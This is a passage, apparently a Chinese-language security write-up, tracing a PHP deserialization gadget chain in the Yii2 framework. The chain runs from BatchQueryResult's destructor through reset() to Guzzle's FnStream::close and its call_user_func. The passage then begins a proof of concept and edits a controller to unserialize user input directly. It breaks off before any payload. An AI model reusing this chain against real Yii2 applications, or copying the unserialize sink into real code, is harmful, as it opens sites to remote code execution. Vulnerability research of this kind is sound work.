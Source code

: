 ```php
public function __destruct()
{
    // make sure cursor is closed
    $this->reset();
}
```

跟踪 restet 方法, 反序列化时, 反序列化的对象成员属性也是可控的. 所以 $this-&gt;\_dataReader 可控， 可以进入 close 方法.

```php
public function reset()
{
    if ($this->_dataReader !== null) {
        $this->_dataReader->close();
    }
    $this->_dataReader = null;
    $this->_batch = null;
    $this->_value = null;
    $this->_key = null;
}
```

那么这里就形成了一个跳板. 全局找 close() 方法. 最后在 &lt;u&gt;/vendor/guzzlehttp/psr7/src/FnStream.php&lt;/u&gt; 中找到一个非常危险的 close 方法, 该方法接收一个参数, 是可控的成员属性.

```php
public function close()
{
    return call_user_func($this->_fn_close);
}
```

POC 编写.
-------

先提供一个反序列化的点. 修改 TestController 不要 render. 直接 var\_dump unserialize;

```php
class TestController extends Controller {
    public function actionIndex($message="Hello") {
        var_dump(unserialize($message));
//        return $this->render("index", ['message'=>$message]);
    }
}
```

对于 poc 的编写, 需要注意命名空间. 否则无法定位到相应的类. 也因为他会自动定位到相应的类，所以不用像原本定义一样继承相应的父类.

&lt;u&gt;vendor/yiisoft/yii2/db/BatchQueryResult.php&lt;/u&gt;

```php
namespace yii\db;

class BatchQueryResult {
    // 需要控制的成员属性
    private $_dataReader;
}
```
